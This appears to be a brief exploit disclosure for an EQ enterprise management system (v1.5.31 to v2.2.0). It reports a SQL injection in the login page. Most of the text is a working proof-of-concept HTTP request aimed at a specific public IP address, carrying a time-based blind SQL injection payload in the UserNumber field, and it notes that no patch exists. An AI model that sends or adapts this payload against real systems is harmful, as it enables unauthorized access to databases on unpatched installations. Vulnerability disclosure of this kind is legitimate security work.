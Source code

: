 # EQ
Exploit Title:EQ企业管理系统

Version:EQ v1.5.31 to v2.2.0

Date:December 5, 2022

Exploit Author:TLF

analysis report: EQ企业管理系统 v1.5.31 to v2.2.0 was discovered to contain a SQL injection

poc

POST /Account/Login HTTP/1.1

Host: 121.8.146.131

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

Accept: application/json, text/javascript, /; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 61

Origin: http://121.8.146.131

Connection: close

Referer: http://121.8.146.131/Account/Login

Cookie: ASP.NET_SessionId=v2svw4yucv1wxfah1zvwsyxy

UserNumber=admin';WAITFOR DELAY '0:0:5'--&UserPwd=123456&ServerDB=EQ&RememberPwd=false&UserPwd=123456&ServerDB=EQ&RememberPwd=false

Patches:None
